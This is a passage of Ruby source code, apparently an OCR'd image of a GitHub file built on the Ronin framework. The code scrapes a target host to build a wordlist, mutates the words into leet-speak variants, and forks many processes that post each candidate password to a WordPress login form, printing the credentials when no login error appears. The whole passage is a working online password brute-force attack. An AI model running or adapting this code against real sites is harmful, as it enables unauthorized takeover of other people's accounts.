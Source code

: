           # Generate the wordlist.  We want words greater than 5 characters 
          # and less then 15.  We would also like to perform some l33t speak 
          # mutations on the words.  
          @options.logger.debug("#{Process.pid}: Generating wordlist (#{options.file}) from #{options.host}")
          ws = Wordlist::Builders::Website.build( 
                @options.file, { :host => @options.host}) 
          @options.logger.debug("#{Process.pid}: Building a wordlist from (#{options.file})")
          list = Wordlist::FlatFile.new(@options.file, 
                  {:max_length => 15, :min_length => 5}) 
          @options.logger.debug("mutating list with #{@mutations.inspect}")
          build_mutations! list

          # Create a bunch of processes for contacting the target site and trying
          # to log in with our word.  Bail on success.
          pids = []
          wordct = 0
          url = 'http://' + options.host + options.path
          @options.logger.debug("Brute forcing #{url} with #{@options.threads} threads")
          query = {:log => options.user, 'wp-submit' => "Log In"}
          list.each_mutation do |word| 
            wordct = wordct.succ

            # Only allow options.threads to run at once
            if pids.size >= @options.threads.to_i
              pid = Process.wait
              if ($?.exitstatus == 1)
                exit
              end
              pids.delete pid
            end

            pids << fork {
              query[:pwd] = word
              @options.logger.debug("#{query.inspect}")
              if Ronin::Web.post(url, :query => query).parser.css('#login_error').size == 0
                # Now it is safe to bail on all the threads.
                puts "username:#{options.user}, password:#{word}" 
                exit 1
              end
            }
          end 
          pids.each do  |pid|
            Process.waitpid pid
            if ($?.exitstatus == 1)
              exit
            end
          end
          puts "Tried #{wordct} passwords and was unable to login."
        else 
          output_usage 
        end 